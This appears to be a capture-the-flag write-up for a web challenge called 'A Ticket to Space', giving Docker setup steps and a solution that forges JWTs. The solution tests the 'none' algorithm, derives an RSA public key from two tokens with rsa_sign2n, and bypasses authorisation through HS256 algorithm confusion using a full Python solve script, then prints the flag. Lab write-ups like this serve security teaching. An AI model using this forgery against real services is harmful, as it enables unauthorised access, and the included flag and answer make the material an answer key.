 # A Ticket to Space

#### Category: Web Exploitation

#### Difficulty: Medium

#### Type: Black Box

#### Description: I have always wanted to go to space. Now they offer a program that will allow me to fulfill my dream! But the queue is a little long, and I'm not sure if I'll still be here when my turn arrives...  I wonder if there is a way to bypass the queuing system.

![image](https://github.com/user-attachments/assets/8c2f4250-53d8-463c-be5c-3828a186b3ab)


## Set Up & Installation

Ensure that docker is installed in your virtual machine before the set up process.

#### [1] Download challenge files
Ensure to download the challenge file `Challenge.zip`

#### [2] Build challenge Docker image 
`sudo docker build -t chall .`

#### [3] Run the image inside a container
`sudo docker run -d chall`

#### [4] Get Docker container IP address
`sudo docker inspect <container-id> | grep 'IP'`

#### [5] Access challenge website
Access to `http://docker-ip-address:3000`

## Solution
<details>

<br>

Since the web exploitation is a black box challenge, source code are not provided and it is required for the players to perform analysis themself and figure out the possible vulnerability. Accessing to the website, a webpage will be displayed like this and it should simulate like a ticket queuing system.

<br>

![image](https://github.com/user-attachments/assets/1fd26ac1-3aa4-4dcb-b933-962368016e73)

<br>

When the 'Buy Tickets' button is clicked, an alert message 'Not your turn yet! Please Wait!' will appear as the user is not authorized to access the ticket purchasing site yet.

<br>

![image](https://github.com/user-attachments/assets/f7519d5c-1ae0-45f6-8703-a56137ebbc71)

<br>

To further understand on how does the website checks the user's authorization, inspecting the frontend side should provide some valuable information.

### Frontend Source Code (Javascript)
```javascript
 window.onload = function() {
    if (!localStorage.getItem("jwt")) {
    fetch("/genToken", {
        method: "GET",
        headers: {
        "Content-Type": "application/json"
        }
    })
    .then(res => res.json())
    .then(data => {
        localStorage.setItem("jwt", data.token);
    })
    .catch(err => console.error("Error getting token:", err));
    }
    };
    
    function BuyTicket() {
    const token = localStorage.getItem("jwt");
    if (!token) {
        alert("No token found.");
        return;
    }
    fetch("/buyTicket", {
        method: "GET",
        headers: {
            "Authorization": `Bearer ${token}`
        }
    })
    .then(async (response) => {
        if (!response.ok) {
            const data = await response.json();
            alert(data.message || "Access denied");
            return;
        }
        const html = await response.text();
        document.open();
        document.write(html);
        document.close();
    })
    .catch(error => {
        console.error("Error:", error);
        alert("Something went wrong.");
    });
}
```
<br>

It seems that the website will fetch the `/genToken` to generate a unique Json Web Token (JWT) for each of the user and stored in the localStorage which will be retrieved later on to check the validity of the token in the `/buyTicket`. If the token validity returns invalid, it will deny the user access to the site. Now let's obtain the JWT from the localStorage for further analysis.

<br>

![image](https://github.com/user-attachments/assets/84c96782-0c5c-445b-95a5-6406a12eccb9)

<br>

When decoding the JWT using an online tool such as [jwt.io](https://jwt.io/). We can see that the JWT uses RS256 algortihm to secure their token. It also contain the payload `{"purchasePerm" : false}` which most likely is the mechanism used to check the validility of the token from the backend server. Therefore, changing the boolean of the payload to `{"purchasePerm" : true}` should work right? Unfortunately for RS256 algorithm, modifying the payload without a valid private key will not work because the server will use the public key to decode the token and checks the payload. Modifying the token without private key will cause the token to be not recognizable by the server and result in invalid token.

<br>

![image](https://github.com/user-attachments/assets/e3985a60-d8de-43e7-b2d1-b683c4c95a48)

<br>

Thus, the website may have two potential vulnerabilities which are [JWT Algorithm "None"](https://medium.com/@phosmet/forging-jwt-exploiting-the-none-algorithm-a37d670af54f) or [JWT Algorithm Confusion](https://portswigger.net/web-security/jwt/algorithm-confusion). Let's first explore the algorithm "None" exploit and determine whether it works. We can use jwt.io to switch the algorithm to `none` and forged a token containing a header like `{"alg" : "none" , "type" : "JWT"}` and also change the payload to `{"purchasePerm" : true}`. The forged token will look something like this `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJwdXJjaGFzZVBlcm0iOnRydWUsImV4cCI6MTc0NTE2ODg5OCwiaWF0IjoxNzQ1MTY1Mjk4fQ.`.

<br>

![image](https://github.com/user-attachments/assets/8a690b70-a261-44f6-860d-5eadd8209dff)

<br>

Then, we can replace the token in the localStorage with the forged token and attempt to access the `/buyTicket`. As a result, the algorithm "None" exploit does not work because the server will not accept token with "None" algorithm so it returns 'Token Authentication Failure'. Therefore, the JWT Algorithm "None" is not the solution ❎ and now we only have one possible vulnerability left which is JWT Algorithm Confusion.

<br>

![image](https://github.com/user-attachments/assets/efe7c9ab-7860-4031-bb1b-997b62e70bcc)

<br>

JWT Algorithm Confusion require us to retrieve the public key which will be used as the HMAC shared secret key after changing the algorithm to HS256 in the JWT header. Most of the time server will exposed their public keys in common path like `/jwks.json` , `/known-path/jwks.json`, & `/public.pem`. However, after several attempts on trying to retrieved the exposed public keys through known path has resulted in nothing. We can assume that the server was configured properly to ensure that the public key does not get exposed.

<br>

![image](https://github.com/user-attachments/assets/3d0a6bc1-faa1-493b-bbd4-203219c14021)

<br>

Fortunately, there is an interesting method that can be used to retrieved the public keys if they are not exposed. A great tool developed by nu11secur1ty called [rsa_sign2n](https://github.com/nu11secur1ty/rsa_sign2n/blob/main/README.md) can derived the public keys from existing tokens which we need to generated two tokens from the website for the tool to work.

First Token: `eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdXJjaGFzZVBlcm0iOmZhbHNlLCJleHAiOjE3NDUxNzc2MzgsImlhdCI6MTc0NTE3NDAzOH0.iTWhbTm90rdNtA10xmwiV0I7S-eD1veCkDgCqbBt5wer6ds1sHJDl5tNZQZcnwfBtYiaMhNG-DqTB7VfTbaYTWJRHNxr6n_UJmXB_XjWBtNkIpGwPHwkJBmebngg-VZuXOvo2NP8wv0TpdF3GRLQENonGFY37l5cYmATtKsNBUlTrvKwp0KLrLpIS8-uufXXkxha5SL6sDmj5z9Mmhwv-At7O0C4ZE8cijfhj48KXWcHk1fQFl1lYVPovqygh3tkJOW2avUO0HehDs6o5YX833aFhOox9kya7DbpPBcW9UEh62_EfFk2L1G1xgZg04vHcTzFYxrX62oaz804FyZHRQ`

After deleting the token and refresh the page will generate another new token.

Second Token: `eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdXJjaGFzZVBlcm0iOmZhbHNlLCJleHAiOjE3NDUxNzc2NTcsImlhdCI6MTc0NTE3NDA1N30.GMSDZvtmFlYGT8dcpk04rHWx6PDM-4DAuzzSXtuvRLfp9-IlVxuwe2MsjzjBGIFU9NLrBhxMkruqm2HcNrDHVkz-NUVDKWmLRED0_VJ9FGwIEARkkZqS-dHXA56x0QxGpUVWSq43_1u_qFi8ZczYAr_O9iXEDmTnBFl2Xu_zLZ0OYOlhKSEnCiGbWUlju2UH-nflysT_I7ENrUTFp_wixpPNYVxfZWLk16ixarISbOixvMdL5rYbYZmPEwos5Lz0-ix4gxmPcY1J2luLRhhQPdkaqKBwMzpSQjwex6N63gHt7kGk_kVfHr1B0L-CIYPazNBn9W5qQcUUVTbvVbzBlg`

Now we have two tokens ready and we can use the tool after successful installation. The command should be like this `python3 jwt_forgery.py token1 token2`. When the process is completed, it should display the result like the image below.

<br>

![image](https://github.com/user-attachments/assets/c35c26da-238a-402d-aa1a-3f6aa07e5d4f)

<br>

Now we need to get the public keys from the result. The public keys will usually stored in x509.pem format and we can use `cat` command to obtain the contents of the file. We need to copy the following public keys into a newly created file called `public.pem` which will be used for later on.

![image](https://github.com/user-attachments/assets/55931d70-3c22-4b42-b023-11062acd7241)

<br>

Getting the public key is a crucial step for the JWT Algorithm Confusion attack to work. Now we can forge our own token by creating a simple python script. Firstly we need to read the `public.pem` file and strip unwanted contents before using it as the HMAC secret.

```python
with open(os.path.join(os.path.dirname(__file__), 'public.pem'), 'r') as f:
    public_key = f.read()

filter = (
    public_key
    .replace('-----BEGIN PUBLIC KEY-----', '')
    .replace('-----END PUBLIC KEY-----', '')
    .replace('\n', '')
    .strip()
)

hmac_secret = base64.b64decode(filter)
```

Then, we need to modify the algorithm to HS256 like `{"typ" : "JWT", "alg" : "HS256"}` and changing the payload data to `{"purchasePerm" : True}`. Now, we can forge the token containing HS256 algorithm along with public key as the HMAC secret.

```python
payload = {"purchasePerm": True}
headers = {"typ": "JWT","alg": "HS256"}

forged_token = jwt.encode(payload, hmac_secret, algorithm='HS256', headers=headers)

if isinstance(forged_token, bytes):
    forged_token = forged_token.decode()

print("Forged Token:", forged_token)
```

Finally, we can send the token to the website using `Authorization: Bearer` to `/buyTicket` endpoint.

```python
response = requests.get("http://localhost:3000/buyTicket",headers={"Authorization": f"Bearer {forged_token}"})

for line in response.iter_lines(decode_unicode=True):
    if 'ICTF25{' in line:
        print(f'Flag:{line}')
```

#### Full Solve Script (Python)

```python
import jwt
import requests
import base64
import os

with open(os.path.join(os.path.dirname(__file__), 'public.pem'), 'r') as f:
    public_key = f.read()

filter = (
    public_key
    .replace('-----BEGIN PUBLIC KEY-----', '')
    .replace('-----END PUBLIC KEY-----', '')
    .replace('\n', '')
    .strip()
)

hmac_secret = base64.b64decode(filter)

payload = {"purchasePerm": True}
headers = {"typ": "JWT","alg": "HS256"}

forged_token = jwt.encode(payload, hmac_secret, algorithm='HS256', headers=headers)

if isinstance(forged_token, bytes):
    forged_token = forged_token.decode()

print("Forged Token:", forged_token)

response = requests.get("http://localhost:3000/buyTicket",headers={"Authorization": f"Bearer {forged_token}"})

for line in response.iter_lines(decode_unicode=True):
    if 'ICTF25{' in line:
        print(f'Flag:{line}')
```

After executing the script we are able to obtain the flag which indicates that the JWT Algorithm Confusion attack has been successfully demonstrated. 

<br>

![image](https://github.com/user-attachments/assets/2903c906-3926-428e-84f7-0a481c735758)

<br>

![image](https://github.com/user-attachments/assets/e138a6eb-5794-4cdc-8500-7bf19dd4a7db)

<br>

### Flag
>ICTF25{3678087349b1b6d839e019a16d5483621af5b09c7d36fc6df346edd4425e7802}
</details>
